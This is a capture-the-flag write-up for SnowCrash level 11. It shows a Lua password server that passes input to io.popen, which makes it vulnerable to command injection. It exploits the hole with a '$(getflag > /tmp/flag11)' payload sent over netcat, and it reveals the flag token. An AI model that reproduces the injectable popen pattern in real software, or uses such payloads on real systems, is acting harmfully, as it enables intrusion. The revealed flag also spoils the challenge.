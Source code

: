 nc 127.0.0.1 5151

prompt password : $(getflag > /tmp/flag11)

flag => fa6v5ateaw21peobuub8ipe6s
# Flag 11

In level11 home directory we have a lua script after running it we got the error:

```
level11@SnowCrash:~$ ./level11.lua 
lua: ./level11.lua:3: address already in use
stack traceback:
	[C]: in function 'assert'
	./level11.lua:3: in main chunk
	[C]: ?
```
it means that probably the script is already running in backround.
the script listening on the `127.0.0.1` local ip port `5151`
```
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```
The script main functionality is not useful at all.
we need just to exploit the popen function that execute a command.
so we send our getflag command in the password promt after connecting to the host with port 5151 with netcat.
and we got our flag (so easy !) 🙃.
```
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: $(getflag > /tmp/flag11)
Erf nope..
level11@SnowCrash:~$ cat /tmp/flag11
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s

```